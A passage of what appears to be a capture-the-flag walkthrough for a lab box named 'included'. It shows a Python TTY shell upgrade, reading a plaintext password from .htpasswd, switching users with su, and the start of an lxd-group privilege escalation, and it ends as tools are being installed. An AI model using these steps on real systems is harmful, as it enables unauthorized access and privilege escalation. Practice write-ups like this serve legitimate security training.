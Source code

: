 To get a proper TTY shell, we need to execute:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`



```console 
www-data@included:/$ cd /var/www/html    
www-data@included:/var/www/html$ ls -lah
total 88K
drwxr-xr-x 4 root     root     4.0K Oct 13  2021 .
drwxr-xr-x 3 root     root     4.0K Apr 23  2021 ..
-rw-r--r-- 1 www-data www-data  212 Apr 23  2021 .htaccess
-rw-r--r-- 1 www-data www-data   17 Apr 23  2021 .htpasswd
-rw-r--r-- 1 www-data www-data  14K Apr 29  2014 default.css
drwxr-xr-x 2 www-data www-data 4.0K Apr 23  2021 fonts
-rw-r--r-- 1 www-data www-data  20K Apr 29  2014 fonts.css
-rw-r--r-- 1 www-data www-data 3.7K Oct 13  2021 home.php
drwxr-xr-x 2 www-data www-data 4.0K Apr 23  2021 images
-rw-r--r-- 1 www-data www-data  145 Oct 13  2021 index.php
-rw-r--r-- 1 www-data www-data  17K Apr 29  2014 license.txt
www-data@included:/var/www/html$ cat .htpasswd
mike:Sheffield19
```

We got mikes password, lets login.

User:pass `mike:Sheffield19`

```
www-data@included:/$ su mike
Password: Sheffield19
mike@included:/$ cd home/mike
mike@included:~$ ls
user.txt
mike@included:~$ cat user.txt   
a56ef91d70cfbf2cdb8f454c006935a1
```

The user flag: `a56ef91d70cfbf2cdb8f454c006935a1`

Now for the root flag.

We can use `id` to see all the group's mike is a member of.

```console
mike@included:/$ id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
```

Everything looks normal except for lxd.

Upon searcing for an exploit we find [this](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) guide.

First we need to install Go and some other dependencies.

```console
┌──(kali㉿kali)-[~]
└─$ sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
[sudo] password for kali: 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done

(...)
```
